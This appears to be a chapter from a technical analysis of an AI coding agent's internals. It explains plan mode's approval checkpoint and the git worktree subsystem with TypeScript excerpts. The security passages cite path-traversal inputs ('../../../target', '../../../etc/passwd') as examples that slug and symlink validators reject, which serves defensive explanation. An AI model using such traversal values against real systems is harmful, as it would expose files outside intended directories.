The HER pattern also assumes the planning phase is always available. cc disables it entirely for channel-based sessions (Telegram/Discord), where the user cannot interact with the approval dialog. This is a pragmatic accommodation that the abstract pattern does not address. The channel-mode check at `src/tools/EnterPlanModeTool/EnterPlanModeTool.ts:L57-L67` and the matching check in `ExitPlanModeV2Tool` ensure that the model cannot enter a mode it cannot leave -- a "mode trap" that would deadlock the session.

The Pewter Ledger experiment represents a departure from the HER assumption that plans should be comprehensive. cc's empirical data shows that longer plans are more likely to be rejected, suggesting that brevity improves alignment -- a finding that contradicts the intuitive "more detail is better" assumption and supports the METR task-sizing insight (Section 10.2) that smaller, more focused units of work succeed more often. The experiment's three arms (`trim`, `cut`, `cap`) represent different strategies for reducing verbosity: `trim` applies gentle reduction to verbose sections, `cut` removes sections flagged as low-value, and `cap` enforces a hard character limit. The primary metric (session-level average cost, a proxy for output tokens) captures the downstream effect: shorter plans may lead to shorter implementation phases, reducing total session cost while maintaining or improving task completion rates.

The HER Session Protocol (Section 10.3) prescribes an 8-step workflow from ORIENT through EXIT. cc's plan mode effectively implements the SELECT step as a separate phase with mandatory human approval, rather than allowing the agent to proceed directly from SELECT to IMPLEMENT. This is a stronger guarantee than the protocol requires, and it reflects cc's design philosophy of preferring explicit user consent over implicit agent autonomy.

The HER pattern does not address subscription-tiered concurrency. cc's `getPlanModeV2AgentCount()` at `src/utils/planModeV2.ts:L5-L29` introduces a material difference in planning throughput between free-tier users (1 agent) and enterprise subscribers (3 agents). For a large codebase with thousands of files, a single exploration agent must traverse the directory tree sequentially, while three agents can partition the search space and explore subsystems in parallel. This is not a theoretical improvement -- it directly affects the quality of the plan, since the agent has more context about the codebase before proposing an implementation strategy. The environment variable override (`CLAUDE_CODE_PLAN_V2_AGENT_COUNT`, capped at 10) provides a testing escape hatch, but it is not intended for production use.

The HER pattern also does not specify what happens when the model refuses to plan. In cc, the model can choose not to call `EnterPlanModeTool` even for complex tasks. The external-user prompt encourages plan mode for seven categories of tasks, but the model is not forced to use it. This design choice reflects a tension between safety (forcing a planning checkpoint) and efficiency (the model may correctly determine that a task is simple enough to implement directly). The `ASK_USER_QUESTION_TOOL_NAME` is positioned as a lightweight alternative for internal users who prefer targeted questions over a full planning phase.

## Developer takeaways for building a long-running agent

Separate exploration from execution with a permission-level guard, not merely a prompt instruction. Plan mode's core value is forcing a checkpoint between understanding and action, and the permission system must enforce read-only behavior during planning because a prompt-only guard is fragile -- context compaction can cause the model to forget it is in plan mode and attempt writes. Tiered parallelism accelerates exploration: enterprise users with three parallel exploration agents find relevant code faster than free-tier users with one, so agents handling large codebases should consider parallel exploration with bounded concurrency gated by subscription or capacity. Plan approval must be distributed for multi-agent systems -- when teammates require plan-mode approval, the local-dialog approach breaks because the teammate has no local terminal to display the dialog, and cc's mailbox-based protocol lets a team lead review and approve plans from any teammate, maintaining the human-in-the-loop guarantee across the multi-agent boundary. Circuit breakers must survive mode transitions: an agent exiting a restricted mode must not accidentally re-enable a capability that was revoked during the restricted phase, and the `ExitPlanModeV2Tool` explicitly checks the auto-mode gate before restoring the pre-plan mode at `src/tools/ExitPlanModeTool/ExitPlanModeV2Tool.ts:L329-L355`, preventing privilege escalation through mode cycling. Measure plan quality, not plan quantity alone: cc's Pewter Ledger experiment found that plan reject rate increases monotonically with plan size, so a shorter plan that the user approves is strictly better than a comprehensive plan that gets rejected. The plan file is the compaction backstop: when context compaction erases the model's awareness of its strategy, the plan file provides a recoverable record, so design the planning system with the plan artifact stored externally to the conversation context, making it immune to compaction and serving as an audit trail and coordination vehicle. Guard redundant mode transitions as model-hallucination signals: when the model calls `ExitPlanMode` while not in plan mode, it reveals a context-compaction or hallucination issue, and logging these events with telemetry provides data for improving the compaction prompt strategy -- treat redundant mode-transition calls not as errors to suppress but as signals to analyze.
# Worktrees: Isolated Parallel Branches

## Overview

Git worktrees are cc's primary mechanism for fork-join parallelism (HER Pattern 8). When multiple subagents work on independent tasks simultaneously, each needs an isolated filesystem so their edits do not conflict. The worktree system creates lightweight git worktree branches under `.claude/worktrees/`, symlinks large directories like `node_modules` to avoid disk bloat, and provides enter/exit lifecycle tools that manage session state transitions. This chapter covers the `EnterWorktreeTool`, `ExitWorktreeTool`, and the `worktree.ts` utility layer that underpins both session worktrees and agent worktrees.

The worktree subsystem is the concrete implementation of HER's fork-join pattern: the parent agent dispatches subagents into isolated branches, each subagent works independently, and results are merged (or discarded) when the worktree is exited. The pattern's safety guarantee -- that parallel agents cannot corrupt each other's working state -- comes from git's branch isolation, not from any application-level locking. This is a deliberate architectural choice: filesystem isolation scales better than lock-based coordination because it eliminates contention entirely.

The worktree system also serves as cc's primary defense against the path-traversal threats identified in HER Section 12.4. The `validateWorktreeSlug()` function prevents directory-escape attacks through strict character allowlisting, and the `symlinkDirectories()` function validates each symlink target before creation. These defenses are necessary because the worktree slug is partially user-controlled -- it flows from the model's tool call input into filesystem paths.

## Data structures and contracts

### WorktreeSession type

The `WorktreeSession` type captures the full state of an active worktree session, including the original working directory, the new worktree path, branch information, and session metadata:

```typescript
// src/utils/worktree.ts:L140-L155
export type WorktreeSession = {
  originalCwd: string
  worktreePath: string
  worktreeName: string
  worktreeBranch?: string
  originalBranch?: string
  originalHeadCommit?: string
  sessionId: string
  tmuxSessionName?: string
  hookBased?: boolean
  creationDurationMs?: number
  usedSparsePaths?: boolean
}
```

The `originalHeadCommit` field is critical for the safety check in `ExitWorktreeTool`: it provides the baseline commit against which new commits on the worktree branch are counted. Without it, the tool cannot determine whether the worktree has uncommitted work and must fail-closed rather than risk destroying changes. The `hookBased` flag indicates that the worktree was created via a `WorktreeCreate` hook rather than through git directly, enabling VCS-agnostic worktree creation for projects that do not use git.

### EnterWorktreeTool input schema

The input is deliberately minimal -- just an optional name:

```typescript
// src/tools/EnterWorktreeTool/EnterWorktreeTool.ts:L23-L39
const inputSchema = lazySchema(() =>
  z.strictObject({
    name: z
      .string()
      .superRefine((s, ctx) => {
        try {
          validateWorktreeSlug(s)
        } catch (e) {
          ctx.addIssue({ code: 'custom', message: (e as Error).message })
        }
      })
      .optional()
      .describe(
        'Optional name for the worktree. Each "/"-separated segment may contain only letters, digits, points, underscores, and dashes; max 64 chars total.',
      ),
  }),
)
```

The slug validation runs through `validateWorktreeSlug()` in the Zod `superRefine`, which prevents path traversal attacks by rejecting `..` segments, absolute paths, and characters outside the allowlist. The validation runs at schema-parse time, before any side effects (git commands, hook execution, chdir) begin. The tool is registered under the name `ENTER_WORKTREE_TOOL_NAME` (defined as `'EnterWorktree'` in `src/tools/EnterWorktreeTool/constants.ts`) and its UI renders "Creating worktree..." during execution, then displays the branch name and path upon completion via `src/tools/EnterWorktreeTool/UI.tsx`.

### ExitWorktreeTool input schema

The exit tool requires an explicit action and an optional discard confirmation:

```typescript
// src/tools/ExitWorktreeTool/ExitWorktreeTool.ts:L31-L44
const inputSchema = lazySchema(() =>
  z.strictObject({
    action: z
      .enum(['keep', 'remove'])
      .describe(
        '"keep" leaves the worktree and branch on disk; "remove" deletes both.',
      ),
    discard_changes: z
      .boolean()
      .optional()
      .describe(
        'Required true when action is "remove" and the worktree has uncommitted files or unmerged commits.',
      ),
  }),
)
```

The `discard_changes` parameter is a two-step confirmation mechanism: when the worktree has uncommitted changes or new commits, the tool refuses to remove unless the model explicitly confirms with `discard_changes: true`. This prevents accidental data loss when a model misjudges whether a worktree's contents are disposable. The tool is also marked `isDestructive(input) { return input.action === 'remove' }` at `src/tools/ExitWorktreeTool/ExitWorktreeTool.ts:L168-L170`, which affects how the permission system classifies the tool call. The tool is registered under `EXIT_WORKTREE_TOOL_NAME` (defined as `'ExitWorktree'` in `src/tools/ExitWorktreeTool/constants.ts`) and its UI in `src/tools/ExitWorktreeTool/UI.tsx` renders "Exiting worktree..." during execution, then displays "Kept worktree" or "Removed worktree" with the branch name and the original CWD path on completion.

### WorktreeCreateResult type

The internal `getOrCreateWorktree()` function returns a discriminated union that distinguishes between resumed and newly-created worktrees:

```typescript
// src/utils/worktree.ts:L180-L194
type WorktreeCreateResult =
  | {
      worktreePath: string
      worktreeBranch: string
      headCommit: string
      existed: true
    }
  | {
      worktreePath: string
      worktreeBranch: string
      headCommit: string
      baseBranch: string
      existed: false
    }
```

The `existed: true` variant skips post-creation setup (no need to copy settings, configure hooks, or symlink directories for a worktree that already has them). The `baseBranch` field is only present on new worktrees, since resumed worktrees already know their branch.

## Control flow

### Worktree creation

The `createWorktreeForSession()` function orchestrates the full creation flow, trying hook-based creation first and falling back to git:

```typescript
// src/utils/worktree.ts:L702-L778
export async function createWorktreeForSession(
  sessionId: string,
  slug: string,
  tmuxSessionName?: string,
  options?: { prNumber?: number },
): Promise<WorktreeSession> {
  // Must run before the hook branch below — hooks receive the raw slug as an
  // argument, and the git branch builds a path from it via path.join.
  validateWorktreeSlug(slug)

  const originalCwd = getCwd()

  // Try hook-based worktree creation first (allows user-configured VCS)
  if (hasWorktreeCreateHook()) {
    const hookResult = await executeWorktreeCreateHook(slug)
    logForDebugging(
      `Created hook-based worktree at: ${hookResult.worktreePath}`,
    )

    currentWorktreeSession = {
      originalCwd,
      worktreePath: hookResult.worktreePath,
      worktreeName: slug,
      sessionId,
      tmuxSessionName,
      hookBased: true,
    }
  } else {
    // Fall back to git worktree
    const gitRoot = findGitRoot(getCwd())
    if (!gitRoot) {
      throw new Error(
        'Cannot create a worktree: not in a git repository and no WorktreeCreate hooks are configured. ' +
          'Configure WorktreeCreate/WorktreeRemove hooks in settings.json to use worktree isolation with other VCS systems.',
      )
    }

    const originalBranch = await getBranch()

    const createStart = Date.now()
    const { worktreePath, worktreeBranch, headCommit, existed } =
      await getOrCreateWorktree(gitRoot, slug, options)

    let creationDurationMs: number | undefined
    if (existed) {
      logForDebugging(`Resuming existing worktree at: ${worktreePath}`)
    } else {
      logForDebugging(
        `Created worktree at: ${worktreePath} on branch: ${worktreeBranch}`,
      )
      await performPostCreationSetup(gitRoot, worktreePath)
      creationDurationMs = Date.now() - createStart
    }

    currentWorktreeSession = {
      originalCwd,
      worktreePath,
      worktreeName: slug,
      worktreeBranch,
      originalBranch,
      originalHeadCommit: headCommit,
      sessionId,
      tmuxSessionName,
      creationDurationMs,
      usedSparsePaths:
        (getInitialSettings().worktree?.sparsePaths?.length ?? 0) > 0,
    }
  }

  // Save to project config for persistence
  saveCurrentProjectConfig(current => ({
    ...current,
    activeWorktreeSession: currentWorktreeSession ?? undefined,
  }))

  return currentWorktreeSession
}
```

The hook-first design allows VCS-agnostic isolation. When a `WorktreeCreate` hook is configured in `settings.json`, it substitutes the entire git-based creation flow. This is useful for organizations that use Perforce, SVN, or other version control systems.

For git-based worktrees, `getOrCreateWorktree()` implements a fast-resume path. It reads the `.git` pointer file directly (no subprocess, no upward walk) to check if a worktree with the same slug already exists:

```typescript
// src/utils/worktree.ts:L247-L255
const existingHead = await readWorktreeHeadSha(worktreePath)
if (existingHead) {
  return {
    worktreePath,
    worktreeBranch,
    headCommit: existingHead,
    existed: true,
  }
}
```

This optimization avoids spawning `git rev-parse HEAD` (which burns ~15ms on spawn overhead) and instead reads the git internal pointer file directly.

### Slug validation and path traversal defense

The `validateWorktreeSlug()` function is the primary defense against path traversal attacks on the worktree system:

```typescript
// src/utils/worktree.ts:L48-L87
const VALID_WORKTREE_SLUG_SEGMENT = /^[a-zA-Z0-9._-]+$/
const MAX_WORKTREE_SLUG_LENGTH = 64

export function validateWorktreeSlug(slug: string): void {
  if (slug.length > MAX_WORKTREE_SLUG_LENGTH) {
    throw new Error(
      `Invalid worktree name: must be ${MAX_WORKTREE_SLUG_LENGTH} characters or fewer (got ${slug.length})`,
    )
  }
  for (const segment of slug.split('/')) {
    if (segment === '.' || segment === '..') {
      throw new Error(
        `Invalid worktree name "${slug}": must not contain "." or ".." path segments`,
      )
    }
    if (!VALID_WORKTREE_SLUG_SEGMENT.test(segment)) {
      throw new Error(
        `Invalid worktree name "${slug}": each "/"-separated segment must be non-empty and contain only letters, digits, dots, underscores, and dashes`,
      )
    }
  }
}
```

Since the slug is joined into `.claude/worktrees/<slug>` via `path.join`, which normalizes `..` segments, an attacker-controlled slug like `../../../target` would escape the worktrees directory. The validation rejects `.` and `..` segments outright and enforces a strict character allowlist per segment. Forward slashes are allowed for nesting (e.g., `user/feature`), but each segment is independently validated. The slug is also flattened for git branch names and directory paths to prevent D/F conflicts and nested directory hazards:

```typescript
// src/utils/worktree.ts:L217-L219
function flattenSlug(slug: string): string {
  return slug.replaceAll('/', '+')
}
```

### Post-creation setup

After creating a new worktree, `performPostCreationSetup()` propagates settings and configures hooks:

```typescript
// src/utils/worktree.ts:L510-L624
async function performPostCreationSetup(
  repoRoot: string,
  worktreePath: string,
): Promise<void> {
  // Copy settings.local.json to the worktree's .claude directory
  // This propagates local settings (which may contain secrets) to the worktree
  const localSettingsRelativePath =
    getRelativeSettingsFilePathForSource('localSettings')
  const sourceSettingsLocal = join(repoRoot, localSettingsRelativePath)
  try {
    const destSettingsLocal = join(worktreePath, localSettingsRelativePath)
    await mkdirRecursive(dirname(destSettingsLocal))
    await copyFile(sourceSettingsLocal, destSettingsLocal)
    logForDebugging(
      `Copied settings.local.json to worktree: ${destSettingsLocal}`,
    )
  } catch (e: unknown) {
    const code = getErrnoCode(e)
    if (code !== 'ENOENT') {
      logForDebugging(
        `Failed to copy settings.local.json: ${(e as Error).message}`,
        { level: 'warn' },
      )
    }
  }

  // Configure the worktree to use hooks from the main repository
  // This solves issues with .husky and other git hooks that use relative paths
  const huskyPath = join(repoRoot, '.husky')
  const gitHooksPath = join(repoRoot, '.git', 'hooks')
  let hooksPath: string | null = null
  for (const candidatePath of [huskyPath, gitHooksPath]) {
    try {
      const s = await stat(candidatePath)
      if (s.isDirectory()) {
        hooksPath = candidatePath
        break
      }
    } catch {
      // Path doesn't exist or can't be accessed
    }
  }
  if (hooksPath) {
    const gitDir = await resolveGitDir(repoRoot)
    const configDir = gitDir ? ((await getCommonDir(gitDir)) ?? gitDir) : null
    const existing = configDir
      ? await parseGitConfigValue(configDir, 'core', null, 'hooksPath')
      : null
    if (existing !== hooksPath) {
      const { code: configCode, stderr: configError } =
        await execFileNoThrowWithCwd(
          gitExe(),
          ['config', 'core.hooksPath', hooksPath],
          { cwd: worktreePath },
        )
      if (configCode === 0) {
        logForDebugging(
          `Configured worktree to use hooks from main repository: ${hooksPath}`,
        )
      } else {
        logForDebugging(`Failed to configure hooks path: ${configError}`, {
          level: 'error',
        })
      }
    }
  }

  // Symlink directories to avoid disk bloat (opt-in via settings)
  const settings = getInitialSettings()
  const dirsToSymlink = settings.worktree?.symlinkDirectories ?? []
  if (dirsToSymlink.length > 0) {
    await symlinkDirectories(repoRoot, worktreePath, dirsToSymlink)
  }

  // Copy gitignored files specified in .worktreeinclude (best-effort)
  await copyWorktreeIncludeFiles(repoRoot, worktreePath)

  if (feature('COMMIT_ATTRIBUTION')) {
    const worktreeHooksDir =
      hooksPath === huskyPath ? join(worktreePath, '.husky') : undefined
    void import('./postCommitAttribution.js')
      .then(m =>
        m
          .installPrepareCommitMsgHook(worktreePath, worktreeHooksDir)
          .catch(error => {
            logForDebugging(
              `Failed to install attribution hook in worktree: ${error}`,
            )
          }),
      )
      .catch(error => {
        logForDebugging(`Failed to load postCommitAttribution module: ${error}`)
      })
  }
}
```

The setup performs five operations: (1) copies `settings.local.json` (which may contain secrets) to the worktree; (2) configures `core.hooksPath` to point to the main repo's hooks directory (so `.husky` hooks work in the worktree); (3) symlinks directories like `node_modules` to avoid duplicating large directories; (4) copies files matching `.worktreeinclude` patterns that are gitignored but needed for the worktree to function; and (5) installs the commit attribution hook directly into the worktree's `.husky/` directory if the `COMMIT_ATTRIBUTION` feature flag is active.

The `core.hooksPath` configuration is fragile: husky's `prepare` script runs on every `bun install` and resets the shared `.git/config` value back to a relative path, causing each worktree to resolve to its own `.husky/` again. To work around this, cc installs the attribution hook directly into the worktree's local `.husky/` directory at `src/utils/worktree.ts:L603-L623`, ensuring it survives a `bun install` reset.

### Session state transitions on enter

When `EnterWorktreeTool.call()` executes, it mutates global session state through a carefully ordered sequence of operations:

```typescript
// src/tools/EnterWorktreeTool/EnterWorktreeTool.ts:L77-L119
async call(input) {
  if (getCurrentWorktreeSession()) {
    throw new Error('Already in a worktree session')
  }
  const mainRepoRoot = findCanonicalGitRoot(getCwd())
  if (mainRepoRoot && mainRepoRoot !== getCwd()) {
    process.chdir(mainRepoRoot)
    setCwd(mainRepoRoot)
  }
  const slug = input.name ?? getPlanSlug()
  const worktreeSession = await createWorktreeForSession(getSessionId(), slug)
  process.chdir(worktreeSession.worktreePath)
  setCwd(worktreeSession.worktreePath)
  setOriginalCwd(getCwd())
  saveWorktreeState(worktreeSession)
  clearSystemPromptSections()
  clearMemoryFileCaches()
  getPlansDirectory.cache.clear?.()
```

The tool first resolves to the main repo root (so worktree creation works from within an existing worktree), then creates the worktree, changes the working directory, updates the original-CWD tracking, saves the worktree state to the session sidecar, and clears cached state that depends on CWD. The cache clearing is essential: without it, the agent would operate with stale system prompt sections that reference the old directory's CLAUDE.md and settings. The `clearMemoryFileCaches()` call ensures that the memdir system re-scans for memories in the new directory, and the `getPlansDirectory.cache.clear?.()` call resets the plans directory path to reflect the new CWD.

```mermaid
stateDiagram-v2
    [*] --> Idle: Session starts
    Idle --> Creating: EnterWorktree called
    Creating --> Validating: Slug validated
    Validating --> HookBased: WorktreeCreate hook exists
    Validating --> GitBased: No hook, git repo found
    HookBased --> Active: Session state updated
    GitBased --> Active: Session state updated
    Creating --> Error: Already in worktree
    Validating --> Error: No git repo, no hook
    Active --> Keeping: ExitWorktree (keep)
    Active --> Removing: ExitWorktree (remove)
    Keeping --> Idle: Session restored
    Removing --> Idle: Worktree deleted
```

```mermaid
erDiagram
    REPO_ROOT ||--o{ WORKTREE_DIR : contains
    WORKTREE_DIR {
        string path ".claude/worktrees/"
    }
    WORKTREE_DIR ||--o{ WORKTREE : stores
    WORKTREE {
        string slug "user+feature"
        string branch "worktree-user+feature"
        string path ".claude/worktrees/user+feature"
        string headCommit "abc1234"
    }
    WORKTREE ||--o| SETTINGS_LOCAL : receives
    SETTINGS_LOCAL {
        string source "settings.local.json"
        string dest ".claude/settings.local.json"
    }
    WORKTREE ||--o| SYMLINK_DIR : contains
    SYMLINK_DIR {
        string name "node_modules"
        string target "../../main-repo/node_modules"
    }
    WORKTREE ||--o| HUSKY_HOOK : installs
    HUSKY_HOOK {
        string path ".husky/prepare-commit-msg"
    }
    SESSION_SIDEAR ||--o| WORKTREE_STATE : records
    WORKTREE_STATE {
        string originalCwd "/home/user/project"
        string worktreePath "/home/user/project/.claude/worktrees/slug"
        string worktreeBranch "worktree-slug"
        string sessionId "uuid"
    }
```

### Exit with change detection

The `ExitWorktreeTool.validateInput()` method counts uncommitted changes before allowing removal. The `countWorktreeChanges()` function at `src/tools/ExitWorktreeTool/ExitWorktreeTool.ts:L79-L113` returns `null` (fail-closed) when git commands fail or when `originalHeadCommit` is undefined:

```typescript
// src/tools/ExitWorktreeTool/ExitWorktreeTool.ts:L79-L113
async function countWorktreeChanges(
  worktreePath: string,
  originalHeadCommit: string | undefined,
): Promise<ChangeSummary | null> {
  const status = await execFileNoThrow('git', [
    '-C', worktreePath, 'status', '--porcelain',
  ])
  if (status.code !== 0) {
    return null
  }
  const changedFiles = count(status.stdout.split('\n'), l => l.trim() !== '')
  if (!originalHeadCommit) {
    return null
  }
  const revList = await execFileNoThrow('git', [
    '-C', worktreePath,
    'rev-list', '--count', `${originalHeadCommit}..HEAD`,
  ])
  if (revList.code !== 0) {
    return null
  }
  const commits = parseInt(revList.stdout.trim(), 10) || 0
  return { changedFiles, commits }
}
```

A `null` return means "unknown, assume unsafe" -- the tool will refuse to remove the worktree without explicit `discard_changes: true` confirmation. This fail-closed approach prevents data loss from false negatives. A `0/0` return that means "definitely clean" but is actually wrong (because git failed silently) would be far more dangerous.

When changes are detected, `validateInput()` produces a descriptive error message:

```typescript
// src/tools/ExitWorktreeTool/ExitWorktreeTool.ts:L190-L219
if (input.action === 'remove' && !input.discard_changes) {
  const summary = await countWorktreeChanges(
    session.worktreePath,
    session.originalHeadCommit,
  )
  if (summary === null) {
    return {
      result: false,
      message: `Could not verify worktree state at ${session.worktreePath}. Refusing to remove without explicit confirmation. Re-invoke with discard_changes: true to proceed — or use action: "keep" to preserve the worktree.`,
      errorCode: 3,
    }
  }
  const { changedFiles, commits } = summary
  if (changedFiles > 0 || commits > 0) {
    const parts: string[] = []
    if (changedFiles > 0) {
      parts.push(
        `${changedFiles} uncommitted ${changedFiles === 1 ? 'file' : 'files'}`,
      )
    }
    if (commits > 0) {
      parts.push(
        `${commits} ${commits === 1 ? 'commit' : 'commits'} on ${session.worktreeBranch ?? 'the worktree branch'}`,
      )
    }
    return {
      result: false,
      message: `Worktree has ${parts.join(' and ')}. Removing will discard this work permanently. Confirm with the user, then re-invoke with discard_changes: true — or use action: "keep" to preserve the worktree.`,
      errorCode: 2,
    }
  }
}
```

### Session restoration on exit

The `restoreSessionToOriginalCwd()` function at `src/tools/ExitWorktreeTool/ExitWorktreeTool.ts:L122-L146` performs the inverse of the session mutations in `EnterWorktreeTool.call()`. It restores the CWD, original CWD, and project root, then clears the same caches:

```typescript
// src/tools/ExitWorktreeTool/ExitWorktreeTool.ts:L122-L146
function restoreSessionToOriginalCwd(
  originalCwd: string,
  projectRootIsWorktree: boolean,
): void {
  setCwd(originalCwd)
  setOriginalCwd(originalCwd)
  if (projectRootIsWorktree) {
    setProjectRoot(originalCwd)
    updateHooksConfigSnapshot()
  }
  saveWorktreeState(null)
  clearSystemPromptSections()
  clearMemoryFileCaches()
  getPlansDirectory.cache.clear?.()
}
```

The `projectRootIsWorktree` check is necessary because mid-session `EnterWorktreeTool` does not change the project root, but the `--worktree` startup path (in `setup.ts`) does. Only the startup path needs the project root restored, because changing the project root mid-session would break the "stable project identity" contract that other systems (like the settings cascade) depend on.

### Stale worktree cleanup

The `cleanupStaleAgentWorktrees()` function removes orphaned worktrees left behind by crashed agent processes. It uses exact-shape patterns to match ephemeral slugs without sweeping user-named worktrees:

```typescript
// src/utils/worktree.ts:L1030-L1041
const EPHEMERAL_WORKTREE_PATTERNS = [
  /^agent-a[0-9a-f]{7}$/,
  /^wf_[0-9a-f]{8}-[0-9a-f]{3}-\d+$/,
  /^wf-\d+$/,
  /^bridge-[A-Za-z0-9_]+(-[A-Za-z0-9_]+)*$/,
  /^job-[a-zA-Z0-9._-]{1,55}-[0-9a-f]{8}$/,
]
```

The cleanup is fail-closed: it skips worktrees where `git status` fails, where there are uncommitted changes, or where there are unpushed commits. Only worktrees with a clean working tree and no unpushed commits are candidates for removal. The function also skips the current session's worktree (matched by path) and only considers worktrees older than the cutoff date (default 30 days, based on mtime).

### The tmux integration path

The `execIntoTmuxWorktree()` function at `src/utils/worktree.ts:L1180-L1520` provides a fast-path for `--worktree --tmux` that creates the worktree and execs into a tmux session running Claude inside it. This is the primary entry point for developers who want an isolated workspace in a separate terminal pane.

The function handles several edge cases: it detects whether tmux is available, checks for iTerm2 integration (using control mode `-CC` for native tab/pane integration), and detects keybinding conflicts between tmux's prefix key and cc's own keybindings. When running inside iTerm2 on macOS, it uses tmux control mode, which lets users manage sessions through iTerm2's UI rather than learning tmux keybindings.

For internal developers (`USER_TYPE=ant` in the `claude-cli-internal` repo), the function sets up dev panes with `bun run watch` and `bun run start` in separate tmux panes, creating a full development environment with a single command.

### The --worktree startup path

The `--worktree` flag (or `-w`) triggers worktree creation at session start in `src/entrypoints/cli.tsx:L247-L249`, before the full CLI loads. When combined with `--tmux`, the fast-path in `cli.tsx` calls `execIntoTmuxWorktree()` directly, creating the worktree and exec-ing into a tmux session before importing the REPL or Ink rendering pipeline. This early exec saves the cost of loading the full CLI bundle (~200ms of module evaluation) into a process that will immediately be replaced by tmux.

The non-tmux `--worktree` path runs through `src/setup.ts:L231-L284`. After `init()` completes (which establishes settings, API keys, and the session file), `setup()` calls `createWorktreeForSession()` with a slug derived from the `--worktree=` argument or a plan slug. It then mutates global state differently than the mid-session `EnterWorktreeTool`:

```typescript
// src/setup.ts:L271-L284
process.chdir(worktreeSession.worktreePath)
setCwd(worktreeSession.worktreePath)
setOriginalCwd(getCwd())
// --worktree means the worktree IS the session's project, so skills/hooks/
// cron/etc. should resolve here. (EnterWorktreeTool mid-session does NOT
// touch projectRoot — that's a throwaway worktree, project stays stable.)
setProjectRoot(getCwd())
saveWorktreeState(worktreeSession)
// Clear memory files cache since originalCwd has changed
clearMemoryFileCaches()
// Settings cache was populated in init() (via applySafeConfigEnvironmentVariables)
// and again at captureHooksConfigSnapshot() above, both from the original dir's
// .claude/settings.json. Re-read from the worktree and re-capture hooks.
updateHooksConfigSnapshot()
```

The critical difference from the mid-session path is `setProjectRoot(getCwd())`. When cc starts with `--worktree`, the worktree directory becomes the project root -- skills, hooks, cron tasks, and the settings cascade all resolve against the worktree's `.claude/` directory. This makes the worktree a first-class project rather than a temporary isolation mechanism. By contrast, `EnterWorktreeTool` mid-session deliberately does not change the project root, preserving the "stable project identity" that other subsystems depend on.

This distinction also affects `ExitWorktreeTool` behavior: when the worktree was entered via the startup path, `restoreSessionToOriginalCwd()` must also restore the project root via `setProjectRoot(originalCwd)` and call `updateHooksConfigSnapshot()`, because the project root was modified at startup.

### Session persistence via saveWorktreeState

The `saveWorktreeState()` function at `src/utils/sessionStorage.ts:L2889-L2920` persists the worktree session to the JSONL transcript so that `--resume` can restore it. When called with a `WorktreeSession`, it strips ephemeral fields (`creationDurationMs`, `usedSparsePaths`) that are useful in-memory but should not be serialized, then writes a `worktree-state` entry to the session file:

```typescript
// src/utils/sessionStorage.ts:L2889-L2920
export function saveWorktreeState(
  worktreeSession: PersistedWorktreeSession | null,
): void {
  const stripped: PersistedWorktreeSession | null = worktreeSession
    ? {
        originalCwd: worktreeSession.originalCwd,
        worktreePath: worktreeSession.worktreePath,
        worktreeName: worktreeSession.worktreeName,
        worktreeBranch: worktreeSession.worktreeBranch,
        originalBranch: worktreeSession.originalBranch,
        originalHeadCommit: worktreeSession.originalHeadCommit,
        sessionId: worktreeSession.sessionId,
        tmuxSessionName: worktreeSession.tmuxSessionName,
        hookBased: worktreeSession.hookBased,
      }
    : null
  const project = getProject()
  project.currentSessionWorktree = stripped
  if (project.sessionFile) {
    appendEntryToFile(project.sessionFile, {
      type: 'worktree-state',
      worktreeSession: stripped,
      sessionId: getSessionId(),
    })
  }
}
```

Passing `null` signals that the worktree has been exited -- `--resume` will not attempt to `chdir` back into it. The function writes eagerly (appending to the JSONL file) when the session file already exists, which covers the mid-session `EnterWorktreeTool`/`ExitWorktreeTool` flows. For the `--worktree` startup path, `sessionFile` is still `null` at this point -- the entry is written later by `materializeSessionFile` on the first user message via `reAppendSessionMetadata`.

On resume, `restoreWorktreeForResume()` at `src/utils/sessionRestore.ts:L332-L366` reads the persisted worktree state and restores the session. If the worktree directory no longer exists (e.g., removed by `cleanupStaleAgentWorktrees()` or manually), the function catches the `chdir` error and writes `saveWorktreeState(null)` to override the stale cached state, preventing subsequent `reAppendSessionMetadata` calls from re-persisting a dangling path. The function intentionally does not set `projectRoot` during resume -- the transcript does not record whether the worktree was entered via `--worktree` (which sets project root) or `EnterWorktreeTool` (which does not), so it conservatively matches `EnterWorktreeTool`'s behavior.

## Edge cases and failure modes

### Nested worktree slug flattening

Forward slashes in slugs are allowed for human readability (e.g., `user/feature`), but they are flattened for both branch names and directory paths at `src/utils/worktree.ts:L217-L219`. This prevents two safety hazards: (1) a git D/F conflict where `worktree-user` as a file conflicts with `worktree-user/feature` as a directory, and (2) nested worktree directories where `git worktree remove` on a parent could delete a child with uncommitted work. The `+` character is valid in git branch names and filesystem paths but is not in the slug-segment allowlist (`[a-zA-Z0-9._-]`), so the mapping is injective -- no two different slugs can produce the same flattened form.

### Symlink traversal protection

The `symlinkDirectories()` function validates each directory name before symlinking:

```typescript
// src/utils/worktree.ts:L102-L138
async function symlinkDirectories(
  repoRootPath: string,
  worktreePath: string,
  dirsToSymlink: string[],
): Promise<void> {
  for (const dir of dirsToSymlink) {
    if (containsPathTraversal(dir)) {
      logForDebugging(
        `Skipping symlink for "${dir}": path traversal detected`,
        { level: 'warn' },
      )
      continue
    }
    const sourcePath = join(repoRootPath, dir)
    const destPath = join(worktreePath, dir)
    try {
      await symlink(sourcePath, destPath, 'dir')
    } catch (error) {
      const code = getErrnoCode(error)
      if (code !== 'ENOENT' && code !== 'EEXIST') {
        logForDebugging(`Failed to symlink ${dir} (${code ?? 'unknown'}): ${errorMessage(error)}`, { level: 'warn' })
      }
    }
  }
}
```

This check prevents a malicious `settings.local.json` from specifying a symlink target that escapes the repository (e.g., `../../../etc/passwd`). The `containsPathTraversal()` check runs before the symlink is created. The error handling is also deliberate: `ENOENT` (source doesn't exist yet) and `EEXIST` (destination already exists) are expected and silently skipped, while other errors (permission denied, unsupported platform) are logged at warn level.

### The .worktreeinclude file

The `copyWorktreeIncludeFiles()` function at `src/utils/worktree.ts:L391-L504` handles a subtle problem: gitignored files (like `.env` or local config) that are needed in the worktree but are not tracked by git. It uses a `.worktreeinclude` file with `.gitignore`-like syntax. The function uses `git ls-files --others --ignored --exclude-standard --directory` to list gitignored entries efficiently, with `--directory` collapsing fully-gitignored directories into single entries (avoiding a full tree walk of `node_modules/`, which in a large repo can cut ~500k entries/~7s down to ~hundreds of entries/~100ms).

When a `.worktreeinclude` pattern targets a path inside a collapsed directory (e.g., `config/secrets/api.key` when all of `config/secrets/` is gitignored), the function performs a second scoped `ls-files` call to expand only that directory. This two-pass approach balances performance (most gitignored directories are not needed in the worktree) with correctness (specific gitignored files may be required).

### The EnterWorktreeTool prompt and safety messaging

